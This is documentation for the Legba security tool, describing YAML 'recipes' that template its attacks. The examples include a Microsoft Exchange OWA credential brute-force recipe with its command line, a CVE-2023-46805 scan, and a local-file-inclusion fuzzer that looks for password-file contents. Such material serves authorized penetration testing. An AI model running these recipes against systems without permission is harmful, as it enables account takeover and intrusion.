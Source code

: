 # Recipes

Legba recipes are YAML files wrapping specific command line options and use cases, you can look at them as a templating engine for Legba. They are a convenient tool to alias otherwise complex arguments as a single mnemonic word. 

A "cookbook" with a few examples is [available here](https://github.com/evilsocket/legba-cookbook). For instance, this is the recipe to bruteforce a MS Exchange server via its auth.owa endpoint:

```yaml
description: Microsoft Exchange bruteforce via OWA endpoint.
author: evilsocket
plugin: http
args:
    target: "{$schema or https}://{$host}:{$port or 443}/owa/auth.owa"
    http-method: POST
    http-success: "status == 302 && set_cookie != \"\""
    http-payload: destination={$schema or https}://{$host}:{$port or 443}/&flags=4&username={USERNAME}&password={PASSWORD}
```

This complex command line can now be executed simply via:

```bash
legba \
  -R cookbook/http/ms-exchange/owa.yml \
  -U users.txt \
  -P passwords.txt \
  "host=ms-server.local" 
```

### Variables

Recipes support a minimal template engine with the `{$variable_name or default_value}` syntax (or just `{$variable_name}` to make it mandatory for the user to provide). Each variable can be set via command line as:

```bash
legba \
  -R cookbook/http/ms-exchange/owa.yml \
  -U users.txt \
  -P passwords.txt \
  "host=ms-server.local&port=8443" 
```

### Resources

Another way of using recipes is including common dictionaries within their folder and referencing them in the YAML so that everything for that use case is self contained.

For instance, the [CVE-2023-46805 recipe](https://github.com/evilsocket/legba-cookbook/tree/main/http/vulnerabilities/CVE-2023-46805) contains a payloads.txt file that's being referenced like this:

```yaml
description: Tests one or multiple hosts for CVE-2023-46805.
author: https://twitter.com/assetnote/status/1747525904551842097
plugin: http.enum
args:
    target: "{$schema or https}://{$host}:{$port or 443}{$path or /}"
    payloads: "{$recipe.path}/payloads.txt"
    http-success: "status == {$success_code or 200} && contains(body, \"Destination host\")"
    http-method: POST
```

Another example is the [LFI vulnerability testing recipe](https://github.com/evilsocket/legba-cookbook/tree/main/http/vulnerabilities/lfi):

```yaml
description: Performs common local file inclusion (LFI) vulnerabilities fuzzing.
author: evilsocket
plugin: http.enum
args:
    target: "{$schema or https}://{$host}:{$port or 443}{$path or /}"
    payloads: "{$recipe.path}/dictionary.txt"
    http-success: "status == {$success_code or 200} && contains(body, \"root:\")"
```
